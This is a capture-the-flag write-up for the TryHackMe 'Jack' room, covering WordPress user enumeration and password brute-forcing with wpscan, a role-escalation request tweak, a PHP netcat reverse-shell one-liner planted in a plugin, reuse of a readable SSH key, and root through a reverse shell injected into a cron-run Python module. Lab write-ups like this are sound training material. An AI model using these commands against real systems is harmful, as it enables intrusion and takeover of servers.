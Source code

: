 #jack

This is a writeup for the room [Jack at TryHackMe](https://tryhackme.com/room/jack)

I used Parrot OS to complet the room, so there might be a difference of syntax in the commands!

The target IP for me was 10.10.142.202 but I put it in my /etc/hosts as jack.thm

This is marked as a HARD challenge, so I won't go ( or try not to) into too much detail on basics.

Have fun!! 

`CryptoTzipi aka CyberLola`


![alt_text](jack/jack.png "image_tooltip")


We will start with our host enumeration by using nmap with the following command

`nmap -sC -A <IP> -T 4`

![alt_text](jack/jack2.png "image_tooltip")

Ports 22(SSH) and 80(HTTP) are open, and we can see we are dealing with a WordPress application.

Here I proceeded to put `jack.thm` into my /etc/hosts file and took a look at the application in Firefox:


![alt_text](jack/jack3.png "image_tooltip")


![alt_text](jack/jack4.png "image_tooltip")


WordPress page, let's go try to enumerate some users by using wpscan!

`wpscan --url https://jack.thm -e u`


![alt_text](jack/jack5.png "image_tooltip")


NICE!! Three users found, so the next step is to save these users in a .txt file, one per line (kind of a mini wordlist!) so we can use this file to attempt some password bruteforcing! I saved my file naming it `jackusers.txt` 
You will need a wordlist for the password. I used the famous rockyou.txt first and 2 cups of coffee later I gave up. 

Here is some of the output given by using rockyou.txt, just for fun :D 

![alt_text](jack/jack9.png "image_tooltip")

I looked around what other wordlists I had that I could try and was lucky using fasttrack.txt which is WAY shorter than rockyou.txt!

The full command is:


`wpscan -U /insert full path to your file/jackusers.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm`


![alt_text](jack/jack10.png "image_tooltip")

AND we got it!!!!

![alt_text](jack/jack11.png "image_tooltip")


SWEET! Next, going to the standard `wp-admin` login page, we use the credentials found and successfully login :)


![alt_text](jack/jack12.png "image_tooltip")


Only to find out Wendy can't really do anything ... BUT we can give her some power!! How?
1. Click on Wendy's profile. You should see the following:

![alt_text](jack/jack13.png "image_tooltip")

2. Open your Burp Suite and `intercept is on` . Refresh the page  and the burp output is ...

![alt_text](jack/jack14.png "image_tooltip")

3. Add `&ure_other_roles=administrator` at the end of the last line in the output! Like this...

![alt_text](jack/jack15.png "image_tooltip")

4. Forward it and you should see THIS!

![alt_text](jack/jack16.png "image_tooltip")

NOW we're in business!!

Pick a plugin (I picked Askimet), edit it including a php reverse shell

`<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc yourIP 7777 >/tmp/f'); ?>`

Update it, set a nc listener, then activate it.

![alt_text](jack/jack17.png "image_tooltip")

![alt_text](jack/jack18.png "image_tooltip")

We got a shell!! And the user.txt as well :)

![alt_text](jack/jack19.png "image_tooltip")


There is another interesting file besides user.txt in there so we take a look at it.

![alt_text](jack/jack20.png "image_tooltip")

Hmmmmmm... backups, huh?!? Doing further manual enumeration ....

![alt_text](jack/jack21.png "image_tooltip")

Did you see that? A private key (id_rsa) and everyone can read it?? 


![alt_text](jack/jack22.png "image_tooltip")

Let's grab that key, put it in our system, save it, chmod +x it and use it for ssh purposes!!! If we think about the note we read, it is saying "Jack will hear about it when he comes back" so it makes sense that is Jack's private key!!

![alt_text](jack/jack23.png "image_tooltip")

And we were right :)

Here I started with some basic enumeration... nothing really useful...but the room gives us a hint and there is no shame using it :) Python!! OK, so let's see what we can do with Python!!

![alt_text](jack/jack24.png "image_tooltip")

Looking at most of these, we can see that they are owned by root in the group "family" ... Is Jack a member of this group??

![alt_text](jack/jack25.png "image_tooltip")

(you'll get there faster if unlike me you can type, lol) 

and yes, he is!! Great! OK, so now we think: what can we do with Python that will enable us to gain root... cronjobs come to mind! A tool called 'pspy' could be uploaded in jack's /tmp and then we could confirm there is a cronjob running in his system... these scripts do import Python modules such as os ... so what if we could just edit the module and insert our python reverse shell in there??


![alt_text](jack/jack26.png "image_tooltip")

Can you see what we've done there? Using nano to see the module then adding the malicious script right at the end? :D

Before saving and exiting nano, just set up another nc listener, wait for it ....


![alt_text](jack/jack28.png "image_tooltip")

BOOM!!! We gained root access and now can easily get ahold of root.txt!!!


And WE ARE DONE!!

![alt_text](jack/jack100.png "image_tooltip")


I hope this writeup was helpful!


Happy Hacking


                                    
                                    `CryptoTzipi aka CyberLola`
















